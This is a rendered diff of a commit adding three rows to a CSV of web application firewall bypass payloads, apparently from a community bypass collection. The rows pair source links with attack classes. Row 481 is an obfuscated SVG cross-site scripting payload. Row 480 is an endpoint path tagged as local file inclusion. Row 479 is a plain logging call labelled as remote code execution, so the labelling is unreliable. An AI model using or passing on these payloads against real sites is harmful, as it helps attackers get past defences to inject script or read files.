

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 479: https://vulners.com/github/GHSA-8XHR-X3V8-RGHJ?utm_source=rss&utm_medium=rss&utm_campaign=rss | services.logging.getLogger("foo").error("Job content executed") | rce
+row 480: https://vulners.com/cve/CVE-2023-41044?utm_source=rss&utm_medium=rss&utm_campaign=rss | /api/system/debug/support/bundle/download/{filename} | lfi
+row 481: https://t.me/ZerodayExploitware/2233 | <SvG><set%0Aonbegin%0A=%0aa=confirm;a%28%60xss%60)/x> | xss
```
